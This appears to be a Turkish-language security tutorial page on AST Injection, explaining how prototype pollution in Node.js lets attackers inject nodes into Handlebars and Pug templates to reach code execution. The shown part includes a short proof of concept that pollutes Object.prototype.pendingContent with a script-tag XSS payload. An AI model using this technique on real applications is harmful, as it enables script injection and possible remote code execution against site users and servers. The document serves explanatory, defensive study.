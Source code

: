```yaml
---
{"dg-publish":true,"permalink":"/ast-injection/"}
---
```


Bu makalede, AST Injection adı verilen yeni bir teknik kullanılarak iki iyi bilinen template motorunda RCE'nin nasıl tetikleneceği anlatılmaktadır.

[[What is AST\|What is AST]] ?

### AST in NodeJS

![Pasted image 20250129200158.png](/img/user/Pasted%20image%2020250129200158.png)

NodeJS'de AST, JS'de template motorları ve typescript vb. olarak gerçekten sık kullanılır. Template engine için yapı yukarıda gösterildiği gibidir.

![Pasted image 20250129200320.png](/img/user/Pasted%20image%2020250129200320.png)

Eğer bir JavaScript uygulamasında prototype pollution güvenlik açığı varsa, **Parser** veya **Compiler** süreci sırasında bir fonksiyona herhangi bir AST (Soyut Sözdizim Ağacı) eklenebilir.

Bu durumda, doğru şekilde filtrelenmemiş veya **lexer** ya da **parser** tarafından doğrulanmamış girişler kullanılarak AST eklenebilir. Böylece derleyiciye beklenmedik girişler sağlayabiliriz.

Aşağıda, **handlebars** ve **pug** template motorlarında **AST Injection** kullanılarak rastgele komutların nasıl çalıştırılabileceği gösterilmektedir.


### Handlebars

![Pasted image 20250129200529.png](/img/user/Pasted%20image%2020250129200529.png)

Bugüne kadar Handlebars toplamda 998.602.213 kez indirilmiştir.  
Handlebars, **ejs** dışında en yaygın kullanılan template motorudur.

Yeni sürümlerinde, herhangi bir template eklenebilse bile hiçbir komut çalıştırılamayacağı için güvenli olduğu bilinmektedir.


### Nasıl Tespit Edilir

```
const Handlebars = require('handlebars');  
  
const source = `Hello {{ msg }}`;  
const template = Handlebars.compile(source);  
  
console.log(template({"msg": "posix"})); // Hello posix
```

Başlamadan önce, Template'leri Handlebar'da nasıl kullanacağınızı açıklayalım. Handlebar.compile fonksiyonu bir stringi bir template fonksiyonuna dönüştürür ve referans için object factors geçirir.

```
const Handlebars = require('handlebars');  
  
Object.prototype.pendingContent = `<script>alert(origin)</script>`  
  
const source = `Hello {{ msg }}`;  
const template = Handlebars.compile(source);  
  
console.log(template({"msg": "posix"})); // <script>alert(origin)</script>Hello posix
```
